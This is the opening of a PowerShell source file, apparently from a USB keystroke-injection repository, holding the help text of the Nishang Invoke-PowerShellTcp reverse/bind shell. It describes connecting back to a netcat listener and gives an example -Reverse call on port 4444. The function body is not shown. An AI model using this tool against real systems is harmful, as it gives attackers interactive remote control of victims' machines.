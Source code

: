# USB-Rubbery-Duckky
File: PS.ps1
function Invoke-PowerShellTcp
{
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell fron a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch.
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from powerfun written by Ben Turner & Dave Hardy 

PARAMETER IPAddress
Thw IP address to connect to when using the -Reverse switch.

PARAMETER port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

EXAMPLE 
PS > Invoke-PowerShellTcp -Reverse .IPAddress .port 4444

